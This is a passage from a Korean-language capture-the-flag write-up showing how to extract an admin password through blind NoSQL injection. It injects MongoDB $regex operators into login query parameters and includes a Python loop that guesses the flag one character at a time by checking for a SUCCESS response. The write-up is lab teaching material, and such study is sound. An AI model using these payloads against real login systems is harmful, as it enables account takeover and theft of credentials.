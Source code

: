 <br>

#### 3. 비밀번호 구하기

그럼 이제 비밀번호의 길이를 구했기 때문에, **정규 표현식을 사용하여 비밀번호의 각 자리를 하나씩 구해가는 방법으로** 비밀번호를 구해낼 수 있다.

먼저, 비밀번호에서 `DH{}` 안에 저장된 플래그를 구할 것이기 때문에 한 자리씩 구해서 전체 결과를 누적할 `flag` 변수를 선언해준다.

그 다음에는, 구해준 비밀번호의 길이만큼 범위를 설정하여 각 자리에 대해 반복문을 돌며, `ALPHANUMERIC` 문자열의 각 문자에 대해 현재 검증하는 비밀번호의 자리값과 동일한지 확인하면 된다.

이는 비밀번호 길이를 구할 때와 동일한 논리로, `requests.get` 함수를 통해 `GET` 요청을 보낸 후, `GET` 요청에 대한 서버의 응답을 `response` 객체에 저장하여 `response.text`의 값이 `SUCCESS`와 같을 때(로그인에 성공)를 확인하면 된다.

URL로 전달할 쿼리문은 `f-string`을 통해 아래와 같이 정규 표현식을 사용하여 작성할 수 있다. `ch`는 `ALPHANUMERIC` 문자열에서 접근하는 iterator 문자이다.

```
uid[$regex] = ad.in&upw[$regex]=D.{{{flag}{ch}
```

이러면 `upw`의 정규 표현식으로 `^D.{{flag}{ch}`가 들어가기 때문에 찾은 `flag`와 검증할 `ch`가 누적되어 반복문을 통해 각 자리의 비밀번호 값을 구할 수 있다.

`response.text == SUCCESS`인 경우 `break`를 통해 `ALPHANUMERIC`에 대한 반복문을 종료하고, 한 자리를 뒤로 이동해서 다시 반복문을 수행하면 된다.

```py
# 2. 비밀번호 구하기
flag = ''

for i in range(pw_len):
    for ch in ALPHANUMERIC:
        response = requests.get(f'{HOST}/login?uid[$regex]=ad.in&upw[$regex]=D.{{{flag}{ch}')
        # response = requests.get(f'{HOST}/login?uid[$regex]=ad.in&upw[$regex]=^D.{{{flag}{ch}')
        if response.text == SUCCESS:
            flag += ch
            break

    print(f'FLAG: DH{{{flag}}}')
```

<img width="486" alt="image" src="https://github.com/user-attachments/assets/51a2813d-161c-4a65-ad69-2c4f01426d03">

{% endraw %}